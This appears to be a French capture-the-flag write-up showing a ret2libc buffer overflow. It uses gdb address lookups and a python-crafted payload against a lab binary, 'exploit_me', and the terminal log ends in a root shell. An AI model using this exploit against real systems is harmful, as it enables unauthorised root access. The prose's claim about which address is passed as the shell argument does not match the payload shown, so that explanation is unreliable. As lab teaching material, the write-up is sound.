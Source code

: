 ```sh
(gdb) r $(python -c 'print "a"*142')
Starting program: /home/zaz/exploit_me $(python -c 'print "a"*142')

Breakpoint 1, 0x08048425 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) x/500s $esp
0xbffff5e0:	 "\360\365\377\277^\370\377\277\001"
0xbffff5ec:	 "I<\354\267", 'a' <repeats 142 times>
[...]
0xbffff849:	 "/home/zaz/exploit_me"
0xbffff85e:	 'a' <repeats 142 times>
0xbffff8ed:	 "SHELL=/bin/bash"
0xbffff8fd:	 "TERM=xterm-256color"
0xbffff911:	 "SSH_CLIENT=192.168.56.1 49382 22"
0xbffff932:	 "SSH_TTY=/dev/pts/0"
0xbffff945:	 "USER=zaz"
[...]
```

Dans le retour de gdb nous avons toutes les informations pour procéder à l'exploitation du binaire.

Les lignes suivantes contienents les adresses mémoires que nous pouvons utiliser pour exploiter le binaire, `0xb7e6b060` pour la fonction system et `0xbffff8ed` pour la variable d'environement.

 * `$1 = {<text variable, no debug info>} 0xb7e6b060 <system>` pour la fonction `system`

 * `0xbffff8ed:	 "SHELL=/bin/bash"` pour la variable d'environnement `SHELL`

On lance alors le binaire avec la chaine preparé pour exploiter la faille de sécurité et ouvrir un shell avec les droits root.

```sh
./exploit_me `python -c "print('0' * 140 + '\x60\xb0\xe6\xb7' + 'OSEF' + '\x58\xcc\xf8\xb7')"`
```

Cette chaine écris 140 `0` pour remplir le buffer et, sur l'overflow, l'adresse de la fonction system, le return de la fonction et l'adresse du shell passé en paramètre.

```sh
zaz:#> ./exploit_me `python -c "print('0' * 140 + '\x60\xb0\xe6\xb7' + 'OSEF' + '\x58\xcc\xf8\xb7')"`
00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000`��OSEFX��
#> whoami
root
#>
```

`Youpi on est root`
